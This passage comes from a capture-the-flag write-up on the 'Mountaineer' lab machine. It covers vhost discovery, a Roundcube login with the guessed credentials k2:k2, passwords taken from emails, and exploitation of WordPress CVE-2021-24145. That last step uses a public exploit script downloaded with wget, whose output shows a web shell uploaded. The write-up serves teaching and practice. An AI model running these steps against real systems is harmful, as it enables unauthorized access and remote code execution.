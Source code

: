 ![Web 80 Nginx OBS Two](web_80_nginx_obs2.webp){: width="1400" height="800" }

Additionally, inside the same file, we can see the cause of the vulnerability.

![Web 80 Nginx OBS Three](web_80_nginx_obs3.webp){: width="1400" height="800" }

We then add the discovered vhost to our hosts file.

```console
10.10.146.154 mountaineer.thm adminroundcubemail.mountaineer.thm
```
{: file="/etc/hosts" }

### Roundcube

Visiting `http://adminroundcubemail.mountaineer.thm/`, we see a `Roundcube` installation.

![Web 80 Roundcube](web_80_roundcube.webp){: width="1400" height="800" }

After trying a couple of weak passwords for the usernames we discovered, we successfully log in using `k2:k2`.

First, checking the email titled `To my favorite mountain out there` in our inbox, we obtain a password.

![Web 80 Roundcube Two](web_80_roundcube2.webp){: width="1400" height="800" }

Next, checking the `Getting to know you!` email in the sent section, we learn quite a bit about the `lhotse` user.

![Web 80 Roundcube Three](web_80_roundcube3.webp){: width="1400" height="800" }

### CVE-2021-24145

Now that we have a password, we test it against `WordPress` for the `k2` user at `http://mountaineer.thm/wordpress/wp-login.php`, and we see that it works.

![Web 80 Wordpress Login](web_80_wordpress_login.webp){: width="1400" height="800" }

Since we are now authenticated, we can revisit the `CVE-2021-24145` vulnerability. We can find a PoC for it [here](https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145).

```console
$ wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py

$ python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p th[REDACTED]ld

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/

                * Wordpress Plugin Modern Events Calendar Lite RCE
                * @Hacker5preme


[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```
